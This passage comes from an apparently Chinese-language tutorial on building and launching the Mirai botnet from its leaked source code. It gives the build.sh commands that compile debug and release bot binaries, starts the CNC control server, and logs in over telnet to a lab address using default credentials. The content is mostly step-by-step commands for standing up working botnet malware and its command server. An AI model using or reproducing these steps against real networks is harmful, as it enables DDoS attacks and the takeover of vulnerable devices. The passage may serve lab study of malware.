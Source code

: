 ![img.png](mirai_image/img_10.png)

16.启动mirai脚本

```shell
cd ~/Mirai-Source-Code-master/mirai/
./build.sh debug telnet
```

将输出debug的二进制程序，打印是否可以连接CNC等信息，洪水的状态等，编译到./mirai/debug folder文件夹下面
 
![img.png](mirai_image/img_11.png)

输出生产的bot二进制文件
```shell
./build.sh release telnet
```

## 启动cnc

**用root登入CNC**

- 在prompt.txt的路径下启动CNC服务器：
```shell
./debug/cnc
```

- 然后新开一个shell，通过telnet连接cnc主机23端口
```shell
telnet 192.168.56.104 23
```
 
![img.png](mirai_image/img_12.png)

- 直接回车进入登录界面，输入数据库中用户名和密码（用户名：mirai-user，密码：mirai-pass）
